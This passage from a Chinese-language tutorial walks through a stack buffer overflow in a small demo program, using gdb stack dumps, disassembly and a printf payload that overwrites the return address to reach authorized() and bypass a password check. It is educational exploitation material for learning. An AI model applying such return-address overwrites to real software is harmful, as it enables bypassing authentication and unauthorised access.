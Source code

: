     (gdb) c
    Continuing.
    aaaaaaaaaaaaaaaa
    
    Breakpoint 4, getInput () at overflow.c:14
    14    if(strcmp(pass, crypt(buffer, "$1$k3Eadsf$")) == 0) {
    
    (gdb) x/8gx $rsp
    0x7fffffffe6d0: 0x6161616161616161  0x6161616161616161
    0x7fffffffe6e0: 0x00007fffffffe6f0  0x0000000000400700
    0x7fffffffe6f0: 0x0000000000000000  0x00007ffff7818a15
    0x7fffffffe700: 0x0000000000000000  0x00007fffffffe7d8
    

因此，如果我们提供一个足够长的输入数据，我们就可以用authorize的地址来覆盖这个函数该返回的返回地址。反编译一下`authorized()`函数来获取一下我们所需要的地址：

    
    
    #!bash
    (gdb) disas authorized
    Dump of assembler code for function authorized:
    0x00000000004006a0 <+0>:   push   rbp
    0x00000000004006a1 <+1>:  mov    rbp,rsp
    0x00000000004006a4 <+4>:  mov    edi,0x4007e2
    0x00000000004006a9 <+9>:  call   0x400550 <[[email protected]](/cdn-cgi/l/email-protection)>
    0x00000000004006ae <+14>: pop    rbp
    0x00000000004006af <+15>: ret
    End of assembler dump.
    

现在我们所有要做的就是把getInput的返回地址覆盖为`0x00000000004006a0`，而且我们可以做到。我们可以在shell里用printf把数据传给程序，你可以用\x来转意16进制数据，因为地址是倒着来的（注：小端），所以我们也倒着给它就好了。还有，我们需要用0x00来终止我们的缓存，这样strcmp就不会在我们函数返回之前引起一个段错误。printf的结果如下：

    
    
    #!bash
    printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" | ./overflow
    

这有16个a，还有7个空字符（`\x00`）来覆盖rbp，最后，我们用我们的目标地址覆盖了正常时的返回地址。如果我们运行它的话，程序将会触发漏洞，直接跑到authorized()里。尽管我们还没输啥对的密码。

    
    
    #!bash
    [[email protected]](/cdn-cgi/l/email-protection) ~/D/p/overflow> printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" |
     ./overflow
    You rascal you!
    fish: Process 9299, “./overflow” from job 1, “printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00
    \x00\x00" | ./overflow” terminated by signal SIGSEGV (Address boundary error)
    

我们的程序会有段错误，因为栈上指向`__libc_start_main`的返回地址没有对齐（main开头的push
rbp一直没pop），但是我们还是可以看到它打印了“You rascal you！”，所以我们可以知道`authorized()`函数事实上已经执行成功了。

## 0x02 总结
